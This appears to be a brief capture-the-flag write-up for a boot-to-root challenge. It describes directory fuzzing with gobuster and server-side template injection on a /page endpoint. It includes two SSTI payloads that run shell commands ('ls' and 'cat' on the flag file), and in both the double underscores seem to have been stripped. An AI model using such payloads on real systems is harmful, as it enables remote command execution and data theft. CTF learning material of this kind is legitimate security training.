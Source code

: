 
## Challenge 1: Boot-2-Root : FLAG 1
![[Pasted image 20250922141731.png]]

Then gobuster to fuzz the website

![[Pasted image 20250922152545.png]]

So we found /page exists, next we went into that site
It was like this,
![[Pasted image 20250922152733.png]]
So we used SSTI injection to find the list of files
`{{ ''._class.mro[1].subclasses()[122].init.globals['builtins']['import_']('os').popen('ls').read() }}`
![[info.jpg]]

So we have found that there is a file named Fl4@G_0n3.txt.
Then I used the payload to print the contents of the file Fl4@G_0n3.txt
`{{ ''._class.mro[1].subclasses()[122].init.globals['builtins']['import_']('os').popen('cat Fl4@G_0n3.txt').read() }}`
Hence we got the flag!
![[flag1.jpg]]

